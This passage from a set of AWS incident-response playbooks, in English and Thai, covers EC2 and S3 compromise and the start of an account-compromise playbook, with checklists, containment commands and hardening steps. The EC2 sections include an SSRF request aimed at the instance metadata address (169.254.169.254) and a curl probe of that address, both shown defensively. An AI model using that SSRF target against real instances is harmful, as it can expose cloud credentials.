    EC2 --> EBS["💾 EBS encryption"]
    SG --> Audit["✅ Audit quarterly"]
    IMDS --> Audit
    style EC2 fill:#f39c12,color:#fff
    style Audit fill:#27ae60,color:#fff
```

### SSRF Metadata Protection

```mermaid
sequenceDiagram
    participant Attacker
    participant App
    participant IMDS as IMDSv1
    participant IMDSv2
    Attacker->>App: SSRF: http://169.254.169.254
    Note over IMDS: ❌ IMDSv1 disabled
    App->>IMDSv2: GET (no token)
    IMDSv2-->>App: 401 Unauthorized
    Note over IMDSv2: ✅ Requires PUT + session token
    Note over Attacker: 🛑 Attack blocked!
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| AWS EC2 Crypto Mining | [cloud_aws_ec2_mining.yml](../../08_Detection_Engineering/sigma_rules/cloud_aws_ec2_mining.yml) |
| AWS Root Account Login | [cloud_root_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_root_login.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-16 Cloud IAM](Cloud_IAM.en.md)
- [PB-21 AWS S3](AWS_S3_Compromise.en.md)

## References

- [AWS Security Incident Response Guide](https://docs.aws.amazon.com/whitepapers/latest/aws-security-incident-response-guide/welcome.html)
- [Amazon EC2 Security Best Practices](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-security-best-practices.html)
- [AWS GuardDuty Finding Types](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-ec2.html)


---

## File: 05_Incident_Response/Playbooks/AWS_EC2_Compromise.th.md

# Playbook: AWS EC2 Instance Compromise

**ID**: PB-22
**ระดับความรุนแรง**: วิกฤต | **หมวดหมู่**: ความปลอดภัยคลาวด์
**MITRE ATT&CK**: [T1190](https://attack.mitre.org/techniques/T1190/) (Exploit Public-Facing App), [T1496](https://attack.mitre.org/techniques/T1496/) (Resource Hijacking)
**ทริกเกอร์**: GuardDuty finding, CloudWatch CPU alarm, VPC Flow Log anomaly, billing spike


## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวน EC2 security groups ตาม least privilege
- [ ] ใช้ IMDSv2 เพื่อป้องกัน SSRF
- [ ] ทบทวน IAM instance profile permissions
- [ ] ใช้ GuardDuty/CloudTrail monitoring
- [ ] สร้าง golden AMI สำหรับ re-deployment
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังขั้นตอน Forensics

```mermaid
graph LR
    Detect["🚨 Alert"] --> Snap["📸 EBS Snapshot"]
    Snap --> Isolate["🔒 Isolate SG"]
    Isolate --> Memory["💾 Memory Dump"]
    Memory --> Analyze["🔍 Forensic Analysis"]
    Analyze --> Report["📋 Report"]
    style Detect fill:#e74c3c,color:#fff
    style Snap fill:#3498db,color:#fff
    style Analyze fill:#27ae60,color:#fff
```

### ผังป้องกัน IMDS Credential Theft

```mermaid
sequenceDiagram
    participant App
    participant IMDS as IMDSv2
    App->>IMDS: PUT /token (TTL=21600)
    IMDS-->>App: Token
    App->>IMDS: GET /credentials (+ Token header)
    IMDS-->>App: Temp credentials
    Note over IMDS: ✅ IMDSv2 ป้องกัน SSRF
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 EC2 Alert"] --> Type{"📋 GuardDuty Finding?"}
    Type -->|CryptoCurrency| Mine["💰 Cryptomining"]
    Type -->|Backdoor/C2| C2["📡 C2 Communication"]
    Type -->|BruteForce SSH| BF["🔑 Brute Force"]
    Type -->|Trojan| Malware["🦠 Malware"]
    Mine --> Contain["🔒 Isolate + Terminate"]
    C2 --> Contain
    BF --> Assess{"✅ SSH ถูกบุกรุก?"}
    Malware --> Contain
    Assess -->|ใช่| Contain
    Assess -->|ไม่| Monitor["👁️ Block IP + ติดตาม"]
```

---

## 1. การวิเคราะห์

### 1.1 GuardDuty Finding Types

| Finding | ลักษณะ | ความรุนแรง |
|:---|:---|:---|
| `CryptoCurrency:EC2/BitcoinTool` | Mining binary ตรวจพบ | 🔴 สูง |
| `Backdoor:EC2/C&CActivity` | EC2 ติดต่อ C2 server | 🔴 สูง |
| `UnauthorizedAccess:EC2/SSHBruteForce` | SSH brute force | 🟠 ปานกลาง |
| `Trojan:EC2/BlackholeTraffic` | Traffic ไป blackhole IP | 🔴 สูง |
| `Recon:EC2/PortProbeUnprotectedPort` | Port scanning | 🟡 ปานกลาง |
| `UnauthorizedAccess:EC2/RDPBruteForce` | RDP brute force | 🟠 ปานกลาง |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| Instance ID, Region, VPC | AWS Console | ☐ |
| Owner tag / Cost center | AWS tags | ☐ |
| Production หรือ Dev/Test? | Tags / CMDB | ☐ |
| IAM role ที่ attach (สิทธิ์อะไร?) | IAM Console | ☐ |
| Security Group (ports ที่เปิด) | EC2 Console | ☐ |
| VPC Flow Logs — outbound ผิดปกติ | VPC Flow Logs | ☐ |
| Entry vector (SSH เปิด? web app? SSRF?) | SG + application | ☐ |
| User data script มี secrets? | EC2 Console | ☐ |
| IMDSv1 เปิด? (credential theft risk) | `curl http://169.254.169.254/` | ☐ |

---

## 2. การควบคุม

| # | การดำเนินการ | คำสั่ง/เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **Snapshot EBS volumes** สำหรับ forensics | `aws ec2 create-snapshot` | ☐ |
| 2 | **Isolate** — attach restrictive Security Group (deny all) | AWS Console | ☐ |
| 3 | **Deregister** จาก ALB/Target Group/ASG | AWS Console | ☐ |
| 4 | **ปิด IAM role** temp credentials (revoke session) | `aws iam put-role-policy` (deny all) | ☐ |
| 5 | **Block** outbound C2/mining IPs | NACL / SG | ☐ |
| 6 | **Capture** memory dump (ถ้า forensics จำเป็น) | SSM / SSH | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Terminate** instance (ถ้า stateless / immutable) | ☐ |
| 2 | **Rebuild** จาก clean AMI (patched) | ☐ |
| 3 | **หมุนเวียน** IAM credentials + SSH keys | ☐ |
| 4 | **Patch** entry vector (web app vulnerability, SSH config) | ☐ |
| 5 | **ลบ** unauthorized users/SSH keys จาก AMI | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ใช้ **SSM** แทน SSH (ไม่ต้องเปิด port 22) | ☐ |
| 2 | บังคับ **IMDSv2** (ปิด v1 — ป้องกัน credential theft) | ☐ |
| 3 | เปิด **GuardDuty** ทุก region | ☐ |
| 4 | ใช้ **Inspector** สำหรับ vulnerability scanning | ☐ |
| 5 | ตั้ง **billing alerts** + **budget caps** | ☐ |
| 6 | ตรวจสอบ Security Groups ทุกไตรมาส | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Production instance ถูกบุกรุก | SOC Lead + Cloud team |
| IAM credentials ถูกขโมย | [PB-16 Cloud IAM](Cloud_IAM.th.md) |
| Billing spike > $1,000 ผิดปกติ | Finance + Cloud team |
| Cryptomining ยืนยัน | [PB-31 Cryptomining](Cryptomining.th.md) |
| C2 confirmed | [PB-13 C2](C2_Communication.th.md) |
| หลาย instances / accounts | Major Incident |

---

### ผัง EC2 Security Hardening

```mermaid
graph TD
    EC2["🖥️ EC2"] --> SG["🔒 Security Group: restrict ports"]
    EC2 --> IMDS["🔑 IMDSv2 only"]
    EC2 --> SSM["📡 SSM: no SSH exposure"]
    EC2 --> CW["📊 CloudWatch agent"]
    EC2 --> EBS["💾 EBS encryption"]
    SG --> Audit["✅ Audit quarterly"]
    IMDS --> Audit
    style EC2 fill:#f39c12,color:#fff
    style Audit fill:#27ae60,color:#fff
```

### ผัง SSRF Metadata Protection

```mermaid
sequenceDiagram
    participant Attacker
    participant App
    participant IMDS as IMDSv1
    participant IMDSv2
    Attacker->>App: SSRF: http://169.254.169.254
    Note over IMDS: ❌ IMDSv1 disabled
    App->>IMDSv2: GET (no token)
    IMDSv2-->>App: 401 Unauthorized
    Note over IMDSv2: ✅ Requires PUT + session token
    Note over Attacker: 🛑 Attack blocked!
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| AWS EC2 Crypto Mining | [cloud_aws_ec2_mining.yml](../../08_Detection_Engineering/sigma_rules/cloud_aws_ec2_mining.yml) |
| AWS Root Account Login | [cloud_root_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_root_login.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-16 Cloud IAM](Cloud_IAM.th.md)
- [PB-31 Cryptomining](Cryptomining.th.md)

## AWS-Specific Investigation Steps

| Check | AWS Service | Command/Console |
|:---|:---|:---|
| Instance metadata | EC2 | describe-instances |
| Security groups | VPC | describe-security-groups |
| IAM role abuse | IAM | get-instance-profile |
| CloudTrail events | CloudTrail | lookup-events |
| VPC flow logs | VPC | Filter by instance ENI |

### Containment Actions Matrix

| Action | Impact | Reversible | Speed |
|:---|:---|:---|:---|
| Security group deny-all | Moderate | ✅ Yes | Fast |
| Instance stop | High | ✅ Yes | Fast |
| Snapshot + terminate | High | ❌ No | Medium |
| IAM role revoke | Moderate | ✅ Yes | Fast |
| VPC isolation | High | ✅ Yes | Medium |

### Cloud Forensics Checklist
- [ ] Capture instance metadata
- [ ] Create EBS snapshot (evidence)
- [ ] Export CloudTrail logs (72 hrs)
- [ ] Capture VPC flow logs
- [ ] Check Lambda/serverless for persistence
- [ ] Review IAM key usage

### Post-Incident AWS Hardening

| Control | Action | Priority |
|:---|:---|:---|
| IMDSv2 | Enforce token-based | P1 |
| Security Groups | Least privilege | P1 |
| IAM Roles | Scope down permissions | P1 |
| CloudTrail | Ensure enabled all regions | P1 |

### Instance Metadata Protection

| Setting | Recommended | Check Command |
|:---|:---|:---|
| IMDSv2 | Required | describe-instances |
| SSRF protection | Enabled | Security review |
| Role permissions | Least privilege | IAM Access Analyzer |

## อ้างอิง

- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [AWS Security Incident Response Guide](https://docs.aws.amazon.com/whitepapers/latest/aws-security-incident-response-guide/welcome.html)


---

## File: 05_Incident_Response/Playbooks/AWS_S3_Compromise.en.md

# Playbook: AWS S3 Bucket Compromise

**ID**: PB-21
**Severity**: High/Critical | **Category**: Cloud Security (AWS)
**MITRE ATT&CK**: [T1530](https://attack.mitre.org/techniques/T1530/) (Data from Cloud Storage), [T1537](https://attack.mitre.org/techniques/T1537/) (Transfer Data to Cloud Account)
**TLP**: AMBER
**Trigger**: CloudTrail alert (`PutBucketPolicy` with public access), GuardDuty `S3/PublicAccess`, abnormal data egress, CSPM alert

### S3 Exposure Detection

```mermaid
graph TD
    Alert["🚨 Alert"] --> Type{"📦 Type?"}
    Type -->|Public bucket| Public["🌐 Remove public ACL"]
    Type -->|Unauthorized access| Unauth["🔑 Check IAM policy"]
    Type -->|Data download| DL["📊 Assess volume"]
    Public --> Audit["🔍 Audit all buckets"]
    Unauth --> Audit
    DL --> Audit
    Audit --> Harden["🔒 Harden"]
```

### Credential Rotation

```mermaid
sequenceDiagram
    participant SOC
    participant IAM
    participant S3
    participant Dev
    SOC->>IAM: 🚨 Compromised access key found
    SOC->>IAM: Disable compromised key
    SOC->>IAM: Generate new access key
    SOC->>S3: Enable versioning + delete markers
    SOC->>Dev: Provide new credentials
    Dev-->>SOC: ✅ Updated
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 S3 Alert"] --> Type{"🔍 Alert Type?"}
    Type -->|Public Access Enabled| Public["🌐 Bucket Made Public"]
    Type -->|High Data Egress| Egress["📤 Unusual Download Volume"]
    Type -->|Unauthorized API Calls| API["🔑 Credentials Compromised"]
    Type -->|Data Modified/Deleted| Tamper["🗑️ Data Tampering"]
    Public --> Block["🔒 Block Public Access NOW"]
    Egress --> Identity["🔍 Identify IAM User"]
    API --> Identity
    Tamper --> Version["📸 Check Versioning"]
    Block --> Logs["📋 Review Access Logs"]
    Identity --> Compromised{"Credentials Stolen?"}
    Compromised -->|Yes| Disable["🔒 Disable IAM Keys"]
    Logs --> Impact["📊 Assess Data Impact"]
```

---

## 1. Analysis

### 1.1 Common S3 Compromise Scenarios

| Scenario | Indicators | Severity |
|:---|:---|:---|
| **Public bucket** — misconfigured policy | `Principal: *`, Block Public Access off | 🔴 Critical |
| **Credentials stolen** — access keys used externally | `GetObject` from unknown IP | 🔴 Critical |
| **Ransomware** — objects encrypted/deleted | `DeleteObject`, `PutObject` with new KMS key | 🔴 Critical |
| **Data staging** — attacker uploads tools/dumps | `PutObject` with suspicious filenames | 🟠 High |
| **Exfiltration** — bulk data download | Excessive `GetObject` calls, high egress | 🔴 Critical |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Bucket name, region, account | AWS Console / CLI | ☐ |
| Is "Block Public Access" enabled? | `aws s3api get-public-access-block` | ☐ |
| Bucket Policy — `Principal: *`? | `aws s3api get-bucket-policy` | ☐ |
| ACL — public-read / public-read-write? | `aws s3api get-bucket-acl` | ☐ |
| Who modified the policy? (IAM user/role) | CloudTrail: `PutBucketPolicy` event | ☐ |
| Source IP of the change | CloudTrail event details | ☐ |
| Was data accessed by external IPs? | S3 Server Access Logs / CloudTrail Data Events | ☐ |
| What data is in the bucket? Classification? | Manual review / Macie | ☐ |
| How long was it exposed? | CloudTrail timeline | ☐ |
| Is versioning enabled? | `aws s3api get-bucket-versioning` | ☐ |

### 1.3 Data Classification Check

| Data Type | Present? | Action Required |
|:---|:---|:---|
| PII / Customer data | ☐ | PDPA notification (72h) |
| Credentials / Secrets / Keys | ☐ | Immediate rotation |
| Financial records | ☐ | Legal notification |
| Source code | ☐ | IP exposure assessment |
| Database backups | ☐ | Credential rotation |
| Logs with sensitive info | ☐ | Risk assessment |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Command / How | Done |
|:---:|:---|:---|:---:|
| 1 | **Block Public Access** | `aws s3api put-public-access-block --bucket <BUCKET> --public-access-block-configuration BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true` | ☐ |
| 2 | **Disable IAM credentials** that made the change | IAM Console / CLI | ☐ |
| 3 | **Tag** bucket as `Status: Compromised` | `aws s3api put-bucket-tagging` | ☐ |
| 4 | **Enable versioning** (preserve evidence) | `aws s3api put-bucket-versioning` | ☐ |

### 2.2 If Credentials Compromised

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Deactivate compromised Access Keys | ☐ |
| 2 | Rotate ALL access keys for the IAM user | ☐ |
| 3 | Check CloudTrail for other API calls by same identity | ☐ |
| 4 | Escalate to [PB-16 Cloud IAM](Cloud_IAM.en.md) | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Restore known-good Bucket Policy (from IaC/Terraform) | ☐ |
| 2 | Rotate ALL credentials, API keys, secrets found in bucket | ☐ |
| 3 | Rotate IAM access keys for compromised users | ☐ |
| 4 | If data deleted/encrypted: restore from versioning or backup | ☐ |
| 5 | Audit IAM permissions — restrict `PutBucketPolicy` | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Enable account-level S3 Block Public Access (SCP) | ☐ |
| 2 | Enable S3 Server Access Logging for all buckets | ☐ |
| 3 | Enable CloudTrail Data Events for S3 | ☐ |
| 4 | Enable Amazon Macie for PII/sensitive data discovery | ☐ |
| 5 | Implement IaC (Terraform) with bucket policy guardrails | ☐ |
| 6 | Confirm AWS Config rule `s3-bucket-public-read-prohibited` is active | ☐ |
| 7 | Monitor bucket for 72 hours | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Bucket name | | AWS Console |
| IAM identity that modified policy | | CloudTrail |
| Source IP | | CloudTrail |
| External IPs that accessed data | | S3 Access Logs |
| Files accessed / downloaded | | CloudTrail Data Events |
| Duration of exposure | | CloudTrail timeline |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| PII / customer data exposed publicly | Legal + DPO (PDPA 72h) |
| Credentials found in public bucket | CISO + IAM team |
| Data exfiltrated by external IPs | Major Incident |
| IAM compromise — multiple API calls | [PB-16 Cloud IAM](Cloud_IAM.en.md) |
| S3 ransomware (data deleted/encrypted) | CISO + AWS Support |
| Multiple buckets affected | Cloud team + SOC Lead |

---

## Root Cause Analysis (VERIS)

| Field | Value |
|:---|:---|
| **Actor** | External / Internal / Partner |
| **Action** | Misconfiguration / Hacking |
| **Asset** | S3 Bucket |
| **Attribute** | Confidentiality |

---

### S3 Hardening Checklist

```mermaid
graph TD
    S3["📦 S3 Bucket"] --> BPA["🔒 Block Public Access"]
    S3 --> Encrypt["🔐 SSE-S3/KMS"]
    S3 --> Version["📋 Versioning"]
    S3 --> Logging["📊 Access Logging"]
    S3 --> Lifecycle["♻️ Lifecycle Policy"]
    BPA --> Audit["✅ Quarterly audit"]
    Encrypt --> Audit
    style S3 fill:#f39c12,color:#fff
    style Audit fill:#27ae60,color:#fff
```

### Bucket Policy Audit

```mermaid
sequenceDiagram
    participant CSPM
    participant SOC
    participant AWS
    participant Dev
    CSPM->>SOC: 🚨 Public bucket detected
    SOC->>AWS: Check bucket policy
    AWS-->>SOC: Principal: * (public!)
    SOC->>AWS: Enable BPA
    SOC->>Dev: Check application impact
    Dev-->>SOC: ✅ No impact — app uses IAM role
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| AWS S3 Public Access Enabled | [cloud_aws_s3_public_access.yml](../../08_Detection_Engineering/sigma_rules/cloud_aws_s3_public_access.yml) |
| Cloud Storage Public Access | [cloud_storage_public_access.yml](../../08_Detection_Engineering/sigma_rules/cloud_storage_public_access.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-16 Cloud IAM](Cloud_IAM.en.md)
- [PB-22 AWS EC2](AWS_EC2_Compromise.en.md)
- [PB-27 Cloud Storage Exposure](Cloud_Storage_Exposure.en.md)

## References

- [AWS S3 Security Best Practices](https://docs.aws.amazon.com/AmazonS3/latest/userguide/security-best-practices.html)
- [Preventing Public Access to S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/access-control-block-public-access.html)
- [AWS GuardDuty S3 Finding Types](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html)


---

## File: 05_Incident_Response/Playbooks/AWS_S3_Compromise.th.md

# Playbook: AWS S3 Compromise

**ID**: PB-21
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: ความปลอดภัยคลาวด์
**MITRE ATT&CK**: [T1530](https://attack.mitre.org/techniques/T1530/) (Data from Cloud Storage)
**ทริกเกอร์**: AWS Config rule violation, GuardDuty S3 finding, Macie PII alert, CloudTrail anomaly


## หลังเหตุการณ์ (Post-Incident)

- [ ] ใช้ S3 Block Public Access เป็น default
- [ ] ทบทวน bucket policies ทั้งหมด
- [ ] ใช้ S3 access logging และ CloudTrail
- [ ] เปิด SSE-KMS encryption สำหรับ sensitive buckets
- [ ] ใช้ VPC endpoints สำหรับ S3 access
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังการตรวจจับ S3 Exposure

```mermaid
graph TD
    Monitor["🔍 Monitoring"] --> Type{"📋 ประเภท?"}
    Type -->|Public Access| Public["🌐 S3 สาธารณะ"]
    Type -->|Unusual Download| Download["📥 Download ผิดปกติ"]
    Type -->|PII Detected| PII["🔴 Macie: PII Found"]
    Type -->|Policy Change| Policy["⚙️ Bucket Policy เปลี่ยน"]
    Public --> Urgent["🔴 Block ทันที"]
    Download --> Investigate["🔎 ตรวจ CloudTrail"]
    PII --> Classify["📋 จำแนก + แจ้ง DPO"]
    Policy --> Revert["↩️ Revert Policy"]
    style Public fill:#e74c3c,color:#fff
    style PII fill:#c0392b,color:#fff
```

### ผังขั้นตอนหมุนเวียน Credentials

```mermaid
sequenceDiagram
    participant SOC
    participant IAM
    participant App as Application
    participant S3
    SOC->>IAM: ปิด compromised access key
    SOC->>IAM: สร้าง access key ใหม่
    IAM-->>SOC: key ID + secret
    SOC->>App: อัปเดต credentials
    App->>S3: ทดสอบ access ใหม่
    S3-->>App: ✅ สำเร็จ
    SOC->>IAM: ลบ old access key
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 S3 Alert"] --> Type{"📋 สถานการณ์?"}
    Type -->|Public Bucket| Pub["🌐 ข้อมูลเปิดสาธารณะ"]
    Type -->|Policy Changed| Pol["⚙️ Policy ถูกเปลี่ยน"]
    Type -->|External Download| DL["📥 ดาวน์โหลดจากภายนอก"]
    Type -->|Ransomware/Delete| Ransom["🔴 S3 Ransomware"]
    Pub --> Classify["📁 จำแนกข้อมูล"]
    Pol --> Classify
    DL --> Classify
    Classify -->|PII / Secrets| Critical["🔴 บล็อกทันที"]
    Ransom --> Critical
```

---

## 1. การวิเคราะห์

### 1.1 สถานการณ์ที่พบบ่อย

| สถานการณ์ | ตัวบ่งชี้ | ความรุนแรง |
|:---|:---|:---|
| **Public bucket + PII** | S3 ACL/Policy = public | 🔴 วิกฤต |
| **Policy เปลี่ยนเป็น public** | CloudTrail `PutBucketPolicy` | 🔴 สูง |
| **Download จาก external IP** | S3 access logs | 🔴 สูง |
| **S3 ransomware** | ลบ objects + ransom note | 🔴 วิกฤต |
| **Credentials ใน bucket** | Macie / TruffleHog | 🔴 วิกฤต |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| Bucket name + region + owner tag | AWS Console | ☐ |
| ข้อมูลอะไรใน bucket? จำแนกประเภท | Macie / manual | ☐ |
| เปิดเป็น public? (Policy / ACL) | `aws s3api get-bucket-policy` | ☐ |
| Block Public Access ปิดอยู่? | `aws s3api get-public-access-block` | ☐ |
| ใครเปลี่ยน? เมื่อไหร่? | CloudTrail | ☐ |
| มีข้อมูลถูก download จาก external IP? | S3 access logs | ☐ |
| มี credentials/secrets อยู่ใน bucket? | Secrets scanner | ☐ |
| Versioning เปิดอยู่? | AWS Console | ☐ |

---

## 2. การควบคุม

### 2.1 การดำเนินการทันที

| # | การดำเนินการ | คำสั่ง | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **Block Public Access** | `aws s3api put-public-access-block --bucket <name> --public-access-block-configuration BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true` | ☐ |
| 2 | **เพิกถอน credentials** ที่เก็บใน S3 | IAM Console | ☐ |
| 3 | **เปิด versioning** เก็บหลักฐาน | `aws s3api put-bucket-versioning --bucket <name> --versioning-configuration Status=Enabled` | ☐ |
| 4 | **Tag** `Status: Compromised` | AWS Console | ☐ |
| 5 | **กู้คืน bucket policy** จาก IaC | Terraform / CFN | ☐ |

### 2.2 หาก Credentials ถูกเปิดเผย

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | หมุนเวียน API keys, access keys, tokens ทั้งหมด | ☐ |
| 2 | ตรวจ CloudTrail ว่า credentials ถูกใช้หรือไม่ | ☐ |
| 3 | หากถูกใช้ → ยกระดับไป [PB-16 Cloud IAM](Cloud_IAM.th.md) | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | คืนค่า bucket policy ที่ถูกต้อง (จาก IaC) | ☐ |
| 2 | หมุนเวียน credentials ทั้งหมดที่อยู่ใน bucket | ☐ |
| 3 | ตรวจสอบ IAM — จำกัดผู้ที่เปลี่ยน policy ได้ | ☐ |
| 4 | หาก S3 ransomware → กู้คืนจาก versioning / backup | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Block Public Access ระดับ account** (SCP) | ☐ |
| 2 | เปิด **Macie** สำหรับ data classification | ☐ |
| 3 | เปิด **AWS Config rules** (s3-bucket-public-read/write-prohibited) | ☐ |
| 4 | ใช้ **Terraform/CloudFormation** สำหรับ bucket policies | ☐ |
| 5 | เปิด **S3 Object Lock** สำหรับ backup buckets | ☐ |
| 6 | เปิด **Server Access Logging** ทุก bucket | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| PII / ข้อมูลลูกค้าถูกเข้าถึง | Legal + DPO (PDPA 72 ชม.) |
| Credentials เปิดเผยและถูกใช้ | CISO + [PB-16 Cloud IAM](Cloud_IAM.th.md) |
| S3 ransomware (ลบ objects) | [PB-02 Ransomware](Ransomware.th.md) + CISO |
| หลาย buckets/accounts | Major Incident |

---

### ผัง S3 Hardening Checklist

```mermaid
graph TD
    S3["📦 S3 Bucket"] --> BPA["🔒 Block Public Access"]
    S3 --> Encrypt["🔐 SSE-S3/KMS"]
    S3 --> Version["📋 Versioning"]
    S3 --> Logging["📊 Access Logging"]
    S3 --> Lifecycle["♻️ Lifecycle Policy"]
    BPA --> Audit["✅ Quarterly audit"]
    Encrypt --> Audit
    style S3 fill:#f39c12,color:#fff
    style Audit fill:#27ae60,color:#fff
```

### ผัง Bucket Policy Audit

```mermaid
sequenceDiagram
    participant CSPM
    participant SOC
    participant AWS
    participant Dev
    CSPM->>SOC: 🚨 Public bucket detected
    SOC->>AWS: Check bucket policy
    AWS-->>SOC: Principal: * (public!)
    SOC->>AWS: Enable BPA
    SOC->>Dev: ตรวจสอบ application impact
    Dev-->>SOC: ✅ No impact — app uses IAM role
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| AWS S3 Public Access Enabled | [cloud_aws_s3_public_access.yml](../../08_Detection_Engineering/sigma_rules/cloud_aws_s3_public_access.yml) |
| Cloud Storage Public Access | [cloud_storage_public_access.yml](../../08_Detection_Engineering/sigma_rules/cloud_storage_public_access.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-27 Cloud Storage Exposure](Cloud_Storage_Exposure.th.md)
- [PB-16 Cloud IAM](Cloud_IAM.th.md)

## S3 Security Assessment

| Check | Finding | Severity |
|:---|:---|:---|
| Public access block | Disabled | Critical |
| Bucket policy | Allow * | Critical |
| ACL grants | Public read/write | Critical |
| Encryption | Not enabled | High |
| Versioning | Disabled | Medium |
| Logging | Not enabled | Medium |

### S3 Incident Response Steps

| Step | Action | AWS CLI |
|:---|:---|:---|
| 1 | Block public access | `put-public-access-block` |
| 2 | Review bucket policy | `get-bucket-policy` |
| 3 | Check access logs | S3 server access logs |
| 4 | Identify exposed data | `list-objects-v2` |
| 5 | Assess data sensitivity | Manual review |
| 6 | Enable encryption | `put-bucket-encryption` |

### S3 Monitoring Checklist

| Monitor | Tool | Frequency |
|:---|:---|:---|
| Public access | Config Rules | Real-time |
| Data access patterns | CloudTrail | Daily review |
| Encryption status | S3 inventory | Weekly |

### Data Exposure Impact

| Data Type | Notification Required |
|:---|:---|
| PII | PDPA + affected users |
| Credentials | Rotate + notify owners |
| Internal docs | Risk assessment only |

## อ้างอิง

- [MITRE ATT&CK T1530 — Data from Cloud Storage](https://attack.mitre.org/techniques/T1530/)
- [AWS S3 Security Best Practices](https://docs.aws.amazon.com/AmazonS3/latest/userguide/security-best-practices.html)


---

## File: 05_Incident_Response/Playbooks/Account_Compromise.en.md

# Playbook: Account Compromise / Unauthorized Access

**ID**: PB-05
**Severity**: High/Critical | **Category**: Identity & Access
**MITRE ATT&CK**: [T1078](https://attack.mitre.org/techniques/T1078/) (Valid Accounts), [T1110](https://attack.mitre.org/techniques/T1110/) (Brute Force)
**Trigger**: Identity Protection alert, Impossible travel / anomalous token, User report, TI credential leak

### Account Compromise Lifecycle

```mermaid
graph LR
    Cred["🔑 Get Credential"] --> Login["🔓 Login"]
    Login --> Persist["⚙️ Establish Persistence"]
    Persist --> Pivot["🔀 Pivot / BEC"]
    Pivot --> Exfil["📤 Exfiltrate Data"]
    style Cred fill:#e74c3c,color:#fff
    style Login fill:#f39c12,color:#fff
    style Persist fill:#e67e22,color:#fff
    style Pivot fill:#8e44ad,color:#fff
    style Exfil fill:#c0392b,color:#fff
```

### Response Sequence

```mermaid
sequenceDiagram
    participant IdP
    participant SOC
    participant User
    participant Exchange
    IdP->>SOC: 🚨 Risk detection
    SOC->>IdP: Revoke all sessions
    SOC->>IdP: Reset password
    SOC->>User: ☎️ Verify identity (phone)
    SOC->>Exchange: Check inbox rules
    Exchange-->>SOC: Found forwarding rule!
    SOC->>Exchange: Remove malicious rules
    SOC->>IdP: Re-register MFA
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Suspicious Login"] --> Context{"📍 Known Location/Device?"}
    Context -->|Known + User Confirms| FP["✅ False Positive"]
    Context -->|Unknown / Cannot Reach User| Investigate["🔍 Investigate"]
    Investigate --> Contact["📞 Verify with User"]
    Contact -->|User: Yes, it was me| FP
    Contact -->|User: No / Unreachable| Compromised["🚨 Confirmed Compromise"]
    Compromised --> Severity{"VIP / Admin Account?"}
    Severity -->|Yes| Critical["🔴 Critical Response"]
    Severity -->|No| Standard["🟠 Standard Response"]
    Critical --> FullLock["Disable + Full Audit + CISO Notify"]
    Standard --> Lock["Disable + Reset + Monitor"]
```

---

## 1. Analysis

### 1.1 Login Context Review

| Check | How | Done |
|:---|:---|:---:|
| Login source IP/location | SIEM, IdP logs, GeoIP | ☐ |
| Device fingerprint | Known device or new? | ☐ |
| Login time | Normal business hours? | ☐ |
| Impossible travel | Multiple logins from distant locations in short time? | ☐ |
| VPN/proxy usage | Is source IP a known VPN/Tor exit? | ☐ |

